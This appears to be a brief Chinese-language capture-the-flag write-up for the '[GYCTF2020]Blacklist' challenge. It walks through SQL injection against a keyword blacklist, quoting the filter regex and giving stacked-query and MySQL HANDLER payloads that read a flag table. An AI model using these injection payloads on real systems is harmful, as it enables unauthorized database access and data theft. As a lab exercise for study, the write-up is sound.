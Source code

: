 # [GYCTF2020]Blacklist 1

- 进入网页，输入 `1'` 出现报错，确定单引号闭合，接着输入 `1' union select 1,2#` 出现 `return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);`

> <img src="../../IMG2/Screenshot 2024-06-05 210737.png">

- 可以看出很多的关键字都被屏蔽了，无法使用普通注入方式，接着尝试堆叠注入，注入成功

`1';show databases;`

> <img src="../../IMG2/Screenshot 2024-06-05 210853.png">

- 爆表，出现 `FlagHere`

`1';show tables;`

> <img src="../../IMG2/Screenshot 2024-06-05 211000.png">

- 这里查询数据就不能使用prepare了，使用handler得到flag

`1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;`

> <img src="../../IMG2/Screenshot 2024-06-05 211315.png">

